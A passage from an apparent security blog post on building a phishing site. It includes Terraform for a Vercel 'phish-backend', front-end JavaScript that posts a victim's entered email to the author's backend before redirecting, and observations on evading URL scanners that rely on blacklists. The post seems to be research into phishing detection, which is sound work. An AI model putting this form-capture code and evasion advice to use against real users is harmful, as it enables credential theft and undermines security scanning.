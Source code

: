 I decided to not overcomplicate things and use Vercel again as they provide serverless compute as well:

```terraform
resource "vercel_project" "phish_backend" {
  name      = "phish-backend"
}

data "vercel_project_directory" "phish_backend" {
  path = "./backend"
}

resource "vercel_deployment" "phish_backend" {
  project_id  = vercel_project.phish_backend.id
  files       = data.vercel_project_directory.phish_backend.files
  path_prefix = "backend"
  production  = true
}
```

The idea here is the same as with frontend, but for the backend they require to upload to an `/api/` folder and describe the function in a language it supports, like this:

```javascript
export default function handler(request, response) {
	const { name = 'World' } = request.query; 
	return response.send(`Hello ${name}!`);
}
```

And here is the frontend part, that will submit the form:

```js
function onSubmit(e) {
    e.preventDefault();
    const request = new XMLHttpRequest();
    request.open("POST", "//${domain}/api/process", false);
    request.setRequestHeader('Content-type', 'application/x-www-form-urlencoded')
    request.send("email="+e.target.elements.email.value);
    window.location.replace(
        "https://example.com/",
    );
}
```

## Evasion
Now that I have basic frontend and backend kind of functioning, it's a good point to switch to figuring out evasion.

Funny enough, I couldn't really use popular URL scanners like VirusTotal, because AVs aren't doing any live analysis of the page itself - they just check a blacklist. Another fun insight is that multiple fresh (public) tools, claiming to utilize complex AI, ML or whatever else is hype, couldn't find anything suspicious in my page. I'm not going to shame any specific service, but let's just say that I could only find 2 that were able to spot the problem:
* [STO Scan](https://scan.safetoopen.com/)
![Initial STO Scan]({{ page.images_path }}/2.png)
